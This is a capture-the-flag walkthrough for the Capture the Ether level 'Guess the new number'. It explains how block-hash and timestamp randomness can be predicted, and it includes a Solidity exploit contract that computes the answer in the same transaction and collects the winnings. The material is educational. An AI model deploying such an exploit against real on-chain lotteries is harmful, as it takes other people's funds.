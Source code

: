 ```yaml
---
description: >-
  In Capture the Ether's "Guess the new number", we move beyond "guessing" the
  value of variables stored on-chain.
---
```


# Guess the new number

This [level](https://capturetheether.com/challenges/lotteries/guess-the-new-number/) challenges us to predict a dynamically-generated value that cannot be known prior to making our guess.

### Hints

<details>

<summary>Hint One</summary>

Anything the `GuessTheNewNumberChallenge` contract can do, a contract you create can do as well. Any contract you deploy to interact with the challenge contract will run in the context of the same `block.number`, `block.timestamp`, etc. as the challenge contract’s code it calls is part of the same transaction and “bundled up” into the same block.

</details>

### Full Walkthrough

Because the `answer` is generated on-demand, and because the source of its randomness cannot be known prior to making our guess, the only solution is to mimic the way the contract calculates the value of `answer` to determine what our guess should be. As the value depends on the previous block hash and the block timestamp, our guess calculation will need to be made in the same context as the contract's calculation.

Luckily, we are free to copy the `GuessTheNewNumberChallenge` contract's logic into our own smart contract, which we will use to make our guess. Both the logic in our own contract and the logic in the challenge contract will be executed in the same context as they will be bundled up into the same block.

### Scripted Solution

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

interface IGuessTheNewNumberChallenge {
    function guess(uint8 n) external payable;
}

contract GuessTheNewNumberChallengeExploit {
    /**
     * Correctly guesses answer of `GuessTheNewNumberChallenge` contract.
     */
    function guess(address contractAddress) external payable {
        // Calculate answer based on blockhash
        uint8 answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );

        // Call contract with `answer`, passing `msg.value` ether
        IGuessTheNewNumberChallenge(contractAddress).guess{value: msg.value}(
            answer
        );

        // Return contract balance to `msg.sender`
        payable(msg.sender).transfer(address(this).balance);
    }

    receive() external payable {}
}
```
